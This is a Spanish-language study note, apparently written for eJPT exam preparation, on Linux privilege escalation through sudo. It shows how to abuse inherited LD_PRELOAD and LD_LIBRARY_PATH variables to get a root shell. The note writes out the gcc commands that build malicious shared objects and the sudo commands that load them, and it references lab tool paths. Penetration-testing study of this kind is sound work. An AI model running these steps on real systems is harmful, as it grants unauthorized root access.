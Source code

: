 - Sudo se puede configurar para heredar ciertas variables de entorno del entorno del -usuario.
- Compruebe qué variables de entorno se heredan (busque las opciones env_keep):

```
sudo -l
```


![[Pasted image 20240322230125.png]]

- LD_PRELOAD y LD_LIBRARY_PATH se heredan del entorno del usuario. LD_PRELOAD carga un objeto compartido antes que cualquier otro cuando se ejecuta un programa. LD_LIBRARY_PATH proporciona una lista de directorios donde se buscan primero las bibliotecas compartidas.
 
- Cree un objeto compartido usando el código ubicado en /home/user/tools/sudo/preload.c:

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

- Ejecute uno de los programas que puede ejecutar mediante sudo (que aparecen al ejecutar sudo -l), mientras configura la variable de entorno LD_PRELOAD en la ruta completa del nuevo objeto compartido:

```
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

- Debería generarse un shell root. Sal del caparazón antes de continuar. Dependiendo del programa que elijas, es posible que también tengas que salir de este. 

- Ejecute ldd en el archivo de programa apache2 para ver qué bibliotecas compartidas utiliza el programa:

```
ldd /usr/sbin/apache2
```

- Cree un objeto compartido con el mismo nombre que una de las bibliotecas enumeradas (libcrypt.so.1) usando el código ubicado en /home/user/tools/sudo/library_path.c:

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

- Ejecute apache2 usando sudo, mientras configura la variable de entorno LD_LIBRARY_PATH en /tmp (donde generamos el objeto compartido compilado):

```
sudo LD_LIBRARY_PATH=/tmp apache2
```

![[Pasted image 20240323000043.png]]


enlace:
[[Preparacion-Ejpt]]
[[Sudo - Shell Escape Sequences]]
